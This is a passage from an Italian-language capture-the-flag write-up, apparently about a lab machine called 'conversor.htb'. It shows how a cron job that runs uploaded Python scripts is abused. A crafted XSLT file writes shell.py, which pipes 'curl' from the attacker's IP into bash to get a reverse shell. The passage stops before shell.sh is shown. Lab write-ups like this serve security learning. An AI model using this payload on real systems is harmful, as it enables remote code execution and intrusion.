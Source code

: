 ```
└── uploads
```

E' presente un file `users.db` che risulta essere vuoto
Invece il file `install.md` fa capire che se troviamo un modo per caricare uno script e metterlo nella cartella /var/www/conversor.htb/scripts/, questo script verrà eseguito facendoci ottenere una shell:

```
If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.

"""
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
"""
```

### Reverse shell

Il sito consente di ottenere una rappresentazione gradevole di una ricerca nmap caricando un file xml con lo scan effettuato e un template xslt (il file nmap.xslt che abbiamo scaricato prima). E' possibile quindi modificare il template per creare uno script che messo nella cartella /var/www/conversor.htb/scripts/ non farà altro che uploadare una reverse shell dal nostro pc:

Il file xslt modificato è il seguente `shell.xslt:

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet 
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
    xmlns:shell="http://exslt.org/common"
    extension-element-prefixes="shell"
    version="1.0"
>
<xsl:template match="/">
<shell:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.27:8000/shell.sh|bash")
</shell:document>
</xsl:template>
</xsl:stylesheet>
```

La parte fondamentale è questa:

```
<shell:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.15:8000/shell.sh|bash")
```

Crea uno script python shell.py nella cartella /var/www/conversor.htb/scripts/ che non fa altro che eseguire un curl alla nostra macchina per caricare la shell `shell.sh` ed eseguirla con `bash`

Prepariamo il file `shell.sh`:
